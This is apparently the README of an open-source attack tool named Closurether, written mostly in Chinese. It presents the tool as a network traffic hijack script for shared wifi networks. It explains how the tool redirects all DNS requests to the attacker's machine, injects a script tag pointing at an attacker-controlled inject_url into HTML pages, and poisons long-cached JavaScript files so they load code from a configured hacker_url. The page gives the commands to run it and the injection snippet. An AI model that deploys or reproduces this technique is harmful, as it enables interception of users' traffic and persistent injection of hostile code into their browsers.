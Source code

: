 Closurether
=========

##### A net network traffic hijack script, including:

  - DNS hijack
  - html code inject
  - HTTP cache poisoning

##### Description:

http://www.cnblogs.com/index-html/p/wifi_hijack_2.html

http://www.cnblogs.com/index-html/p/wifi_hijack_3.html

原理说明
==========

##### 寻找最优缓存js链接
`cd tools` <br>
`phantomjs sniffer.js` <br>
遍历url.txt地址，寻找 expires - now > MIN_CACHE_DAY 和 now - last-modified > MIN_STABLE_DAY 的js文件，写入 asset/list.txt (由于有的js页面并没有 LAST-MODIFIED 或 EXPIRES 就肯定不会被收录)

##### 启动服务
`node index.js` <br>
启动了俩服务: dns服务(将所有dns请求都解析到本机) http服务(修改html页面和js文件) 

##### 核心文件
`proxy_web.js` <br>
如果是html页面，则注入 `<script src="http://[inject_url(见config.json文件)]"></script>` <br>
如果是js页面，分两种情况：<br>
1.请求地址如果是inject_url, 则返回 asset/inject.js ($LIST替换为asset/list.txt), new Image().src='http://[asset/list.txt条目]' 会被浏览器立即下载并缓存 <br>
2.请求地址如果是asset/list.txt中的某条目，则返回 asset/stub.js ($URL_HACKER替换为hacker_url@config.json文件，$URL_RAW替换为请求地址)

